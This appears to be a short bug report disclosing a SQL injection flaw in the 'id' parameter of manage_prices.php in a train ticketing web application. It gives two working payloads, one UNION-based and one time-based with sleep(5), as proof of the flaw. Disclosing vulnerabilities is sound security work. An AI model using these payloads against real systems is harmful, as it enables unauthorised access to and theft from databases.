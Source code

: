 BUG_Author：syr14

Vulnerability File: /train_ticketing/manage_prices.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=1 union all select null,concat(0x616263,0x7576777879),null-- -

The union query is successful, which proves that there is SQL injection.

![image](https://github.com/shiyur14/bugReport/blob/main/sql.png)

Payload2: id=1 and(select 5 from (select(sleep(5)))e)

The response time of the server is 5 seconds, which proves that there is SQL injection.

![image](https://github.com/shiyur14/bugReport/blob/main/sql1.png)
